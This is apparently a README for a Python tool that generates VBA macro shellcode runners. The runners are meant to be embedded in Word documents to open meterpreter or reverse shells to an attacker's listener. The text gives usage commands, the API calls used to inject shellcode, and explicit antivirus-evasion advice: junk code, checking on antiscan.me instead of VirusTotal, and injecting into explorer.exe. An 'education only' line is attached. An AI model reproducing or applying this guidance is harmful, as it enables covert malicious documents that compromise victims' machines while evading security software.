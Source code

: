 #Not authored by me but backed up (ScriptIdiot)
# vba_bin_runner
Basic python tools to generate shellcode runner in vba.

The stub use ZwAllocateVirtualMemory to allocate memory, RtlMoveMemory to write memory and EnumDateFormatsW to execute shellcode.
You can generate meterpreter/reverse_http (compatible cobalt strike), reverse_tcp and reverse_shell. 

In antiscan.me i have 0/26 detections in scantime. In runtime i bypass Defender and Kaspersky but if you use c2 some function can be detected by AV.
If the stub is detected you can edit/add junk code and change the function to allocate/write/execute. 
You can Easier  edit this with : https://github.com/karttoon/trigen/blob/master/function_VBA_notes.txt

The macro self inject shellcode in word process, after macro is enabled the Word Application crash, if you want to patch this you can edit stub to inject shellcode in other process (explorer.exe for exemple).

If you use meterpreter you can add automigrate in your listener to keep connection after Word Application crash.
To keep stub long time no-detect use antiscan.me to check and no virus total. 

NB : Please don't use this for illegal activity

# How to use
Python main.py -p 1 -L 192.168.1.17 -P 80 -o /home/kali/Desktop/test.vba

 -p : Is for the choice of payload
 
      1 -> windows/meterpreter/reverse_http
      
      2 -> windows/meterpreter/reverse_tcp
      
      3 -> windows/shell_reverse_tcp
      
      
 -L : Is for the ip of listener
 
 -P : Is for the port of listener
 
 -o : Is for the destination output of payload
 
 
 The tools use msfvenom to generate payload.

# For education only

